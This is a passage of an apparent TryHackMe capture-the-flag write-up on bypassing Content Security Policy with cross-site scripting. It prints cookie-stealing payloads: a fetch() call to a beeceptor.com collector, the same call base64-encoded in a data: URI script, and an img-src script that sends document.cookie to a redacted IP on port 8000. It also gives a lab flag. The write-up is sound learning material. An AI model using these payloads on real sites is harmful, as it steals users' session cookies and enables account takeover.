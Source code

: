 ```bash
fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)
```

<br>
<p><em>CyberChef > To Base64</em></p>

```bash
ZmV0Y2goYGh0dHBzOi8vcmFuZG9tY3NwLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ==
```

<br>
<p><em>Payload</em></p>

```bash
script src="data:;base64,ZmV0Y2goYGh0dHBzOi8vcmFuZG9tY3NwLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ=="></script>
```

<br>

<img width="1087" height="166" alt="image" src="https://github.com/user-attachments/assets/671ed009-b347-4bbe-b365-6164fb3c9efd" />

<br>
<br>


<img width="1356" height="206" alt="image" src="https://github.com/user-attachments/assets/56b11d55-c5e9-4d86-abce-9cc770b317b6" />

<br>
<br>
<br>
<p>7.3. Flag for attack-3<br>
<code>THM{Th4ts_N0t_4n_1m4ge!!}</code></p>

<br>

<img width="1162" height="409" alt="image" src="https://github.com/user-attachments/assets/331711e2-9423-460e-ac84-1ec82e7b3644" />


<br>
<br>
<p><em>Payload</em></p>

```bash
<img id="researcher" src=""> <script>document.getElementById('researcher').src="http://xx.xxx.xx.xxx:8000/" + document.cookie;</script>
```

<br>
<br>

<img width="1094" height="156" alt="image" src="https://github.com/user-attachments/assets/230f2030-5bb1-4a82-9d84-77046bc369c3" />

<br>
<br>

<img width="1358" height="186" alt="image" src="https://github.com/user-attachments/assets/91f5c55f-7e0e-4e56-ad42-1693645a03ea" />
